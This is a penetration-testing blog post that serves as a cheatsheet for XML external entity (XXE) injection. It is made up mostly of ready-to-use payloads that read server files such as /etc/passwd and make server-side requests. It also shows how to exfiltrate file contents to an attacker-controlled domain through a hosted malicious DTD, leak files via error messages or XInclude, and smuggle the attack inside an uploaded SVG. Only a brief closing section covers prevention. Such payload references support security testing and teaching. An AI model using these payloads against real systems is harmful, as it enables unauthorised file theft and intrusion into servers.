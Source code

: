 ```yaml
---
title: "XXE attack"
subtitle: ""
date: 2020-03-04T15:58:26+08:00
lastmod: 2020-03-04T15:58:26+08:00
draft: false
author: "Hato0"
description: "XXE cheatsheet"

tags: ["web", "penetest", "xxe"]
categories: ["Penetest - Web"]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# XML external entity injection

XXE is a specific attack against XML application. It can allow an attacker to view files, interact directly with the backend, or other application related to the corrupt one. 

This attack is perform as an initial vector for SSRF. To check for the vulnerability you will have to intercept the request and change the post data. Post data are used in 99.99% for XML applications.

## Basics

- External entities to retrieve files

	Simple payload to retrieve a file from the filesystem
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE test \[ <!ENTITY [xxe](https://portswigger.net/web-security/xxe) SYSTEM "file:///etc/passwd"> \]>
	{{< /highlight >}}
		

- Perform SSRF attacks

	As the previous one simple payload, you can adapt the IP by using URL to fetch APIs or whatever
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE test \[ <!ENTITY xxe SYSTEM "http://127.0.0.1/"> \]>
	{{< /highlight >}}
	

## Blind XXE

- Out-of-band interaction

	In this attack you will use the same payload as for the SSRF combined attack, but you will use your IP to check for inbound traffic.
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE test \[ <!ENTITY xxe SYSTEM "YOUR_DOMAIN_OR_IP"> \]>
	{{< /highlight >}}
	
- Out-of-band interaction via XML parameter entities

	Same principle and a similar payload but two different test
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE stockCheck \[<!ENTITY % [xxe](https://portswigger.net/web-security/xxe) SYSTEM "YOUR_DOMAIN_OR_IP"> %xxe; \]>
	{{< /highlight >}}
	

- Exfiltrate data using a malicious external DTD

	First, DTD is a text file that store XML attributes and elements used by an application.
	This exfiltration has two phases:
	
	1. You will have to host the DTD file on your website and it should be accessible for external use. This file should contain the following payload:
		
		{{< highlight xml "lineNos=false" >}}
		<!ENTITY % file SYSTEM "file://FILE_PATH_TO_RETRIEVE">  
		<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'YOURDOMAIN/?log=%file;'>"> 
		%eval;  
		%exfil;
		{{< /highlight >}}
	
	
	2. Then exploit as you will do an classical exfiltration but you should specify the DTD file as follow : 

		{{< highlight xml "lineNos=false" >}}
		<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "DTD_URL"> %xxe;]>
		{{< /highlight >}}
	
	
	3. Now you should tcpdump or go to your website logs to view the file you want to retrieve.
	
- Retrieve data via error messages

	This attack has the same action than the external DTD we saw previously. You just need to replace the step 1 payload with the following one:
	
	{{< highlight xml "lineNos=false" >}}
	<!ENTITY % file SYSTEM "file://FILE_PATH_TO_RETRIEVE">  
	<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">  
	%eval;  
	%exfil;
	{{< /highlight >}}
	
	This will throw an error containing the file you specify
	
- Retrieve data by repurposing a local DTD

	For this one you need to find a local DTD on the system. Once you get it you can simply redeclare a function and trigger for example the error based exfiltration. In this example we suppose that the local file is  `DTD_LOCAL_FILE` and the entity inside is called `PWNME`. The following payload is to include on the XML post data :
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE message [
	<!ENTITY % local_dtd SYSTEM "file://DTD_LOCAL_FILE">
	<!ENTITY % PWNME '
	<!ENTITY &#x25; file SYSTEM "file://FILE_PATH_TO_RETRIEVE">
	<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
	&#x25;eval;
	&#x25;error;
	'>
	%local_dtd;
	]>
	{{< /highlight >}}


## Others examples

- Exploiting XInclude to retrieve files

	Back to basics, simple efficient payload :
	
	{{< highlight xml "lineNos=false" >}}
	<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file://FILE_PATH_TO_RETRIEVE"/></foo>
	{{< /highlight >}}
	
	
- Exploiting XXE via image file upload

	For this attack you will have to prepare a SVG file containing the following payload and adapt parameters :
	
	{{< highlight xml "lineNos=false" >}} 
	<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file://FILE_PATH_TO_RETRIEVE" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
	{{< /highlight >}}

	Then just upload it as an image and you should have the file data in your image display
	
	
## How to prevent them 

XXE exist due to bad handle of user input or used of dangerous function in used librairie.
The best way to prevent them is to include only necessaries functions or remove unnecessaries ones. 

Import ones to disable are `XInclude` and `external entities resolutions`